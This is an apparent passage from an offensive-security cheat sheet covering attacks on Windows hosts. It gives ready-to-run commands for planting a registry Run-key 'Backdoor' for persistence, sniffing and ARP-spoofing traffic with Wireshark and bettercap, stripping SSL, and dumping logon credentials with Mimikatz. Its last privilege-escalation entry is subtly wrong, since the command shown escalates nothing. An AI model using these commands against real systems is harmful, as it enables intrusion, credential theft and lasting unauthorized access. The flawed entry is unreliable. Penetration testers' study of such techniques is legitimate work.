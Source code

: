     ```powershell
    Set-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'C:\backdoor.exe'
    ```
* **Description:** Configures a persistent backdoor to be executed on startup, ensuring continued access even if WinRM is disabled.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Extracting Credentials via PowerShell

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```powershell
    Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
    ```
* **Description:** Executes Mimikatz on the remote machine to dump plaintext credentials or hashes.

#### SSL Strip Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]], \[\[SSLStrip Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy

    sslstrip -l <target_port>
    ```
* **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

### Privilege Escalation

#### Exploiting Misconfigured Services

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Get-Service -Name <vulnerable_service> | Set-Service -StartupType Automatic
    ```
* **Description:** Identifies and exploits misconfigured services that can be manipulated to escalate privileges.
